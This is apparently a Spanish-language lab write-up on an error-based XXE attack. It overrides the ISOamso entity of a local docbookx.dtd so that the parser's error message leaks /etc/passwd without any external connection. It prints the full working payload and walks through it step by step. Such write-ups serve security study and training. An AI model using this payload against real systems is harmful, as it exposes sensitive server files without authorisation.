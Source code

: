 En esta clase, continuamos con el mismo laboratorio anterior, en el que reutilizamos un DTD local del sistema para realizar un ataque XXE. En esta segunda parte, terminamos de afinar la carga útil que redefine una entidad del archivo ‘**docbookx.dtd**‘ y genera un error controlado que nos permite exfiltrar el contenido del archivo /etc/passwd.

El objetivo es que, al provocar este error, el mensaje resultante contenga el contenido del archivo, lo cual permite resolver el laboratorio sin necesidad de respuestas visibles ni conexiones externas. Esta técnica es especialmente útil en entornos restringidos donde no es posible interactuar con servidores externos.
Solucion
siguiendo con la solucion vamos a  construir un payload
payload (<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>)
Que hace ?
### Paso a paso

1. **`<!DOCTYPE message [...]>`**  
    Se declara un tipo de documento con una definición interna de entidades.
    
2. **`<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">`**  
    Se intenta cargar una DTD externa (local en el sistema) para expandir nuevas entidades. En este caso, `docbookx.dtd`, que se supone debe incluir una entidad llamada `ISOamso`.
    
3. **`<!ENTITY % ISOamso ' ... '>`**  
    Si `docbookx.dtd` define `%ISOamso`, lo redefine con un nuevo contenido (es un tipo de _entity override_).
    
4. **Dentro del redefinido `ISOamso`**:
    
    xml
    `<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;`
    
    - `%file` carga el archivo `/etc/passwd`.
        
    - `%eval` crea una entidad `%error` que intenta cargar un archivo inexistente con el contenido de `%file` como parte de la ruta.
        
    - `%eval;` y `%error;` expanden esas entidades.
### 🎯 Objetivo final

El objetivo de este payload es forzar al parser XML a:

- **Leer `/etc/passwd`.**
    
- **Inyectar su contenido como parte de una URL**, causando un error de carga en `file:///nonexistent/<contenido_de_passwd>`, lo cual puede provocar que el contenido del archivo aparezca en logs o mensajes de error, revelando información sensible.

y este codigo lo injectamos y con esto leemos el archivo etc/passwd
![[Pasted image 20250802192652.png]]
